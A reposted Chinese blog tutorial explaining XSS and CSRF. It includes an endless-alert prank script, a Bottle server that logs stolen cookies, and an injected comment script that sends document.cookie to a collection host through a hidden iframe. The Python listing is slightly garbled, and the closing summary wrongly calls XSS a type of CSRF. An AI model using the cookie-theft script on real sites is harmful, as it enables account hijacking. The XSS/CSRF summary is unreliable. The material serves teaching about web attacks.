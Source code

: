 ```yaml
---
title: ZT-XSS和CSRF对比
date: 2017-01-19 09:11:30
tags: 网络相关
---
```


<font color=grey>转载：https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/</font>

## XSS：脚本中的不速之客

XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

运行预期之外的脚本带来的后果有很多中，可能只是简单的恶作剧——一个关不掉的窗口：
```javascript
while (true) {
    alert("你关不掉我~");
}
```
也可以是盗号或者其他未授权的操作——我们来模拟一下这个过程，先建立一个用来收集信息的服务器：

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

"""

<!-- more -->


跨站脚本注入的信息收集服务器

"""javascript
import bottle

app = bottle.Bottle()
plugin = bottle.ext.sqlite.Plugin(dbfile='/var/db/myxss.sqlite')
app.install(plugin)

@app.route('/myxss/')
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""

if __name__ == "__main__":
    app.run()
```

然后在某一个页面的评论中注入这段代码：
```javascript
// 用 <script type="text/javascript"></script>  包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

<font color=red>个人总结：XSS是CSRF中的一种，是特指通过执行JS脚本来进行的攻击。CSRF则方式更多，比如通过代码中的逻辑问题去进行攻击，黑客通过伪装成用户进行攻击。</font>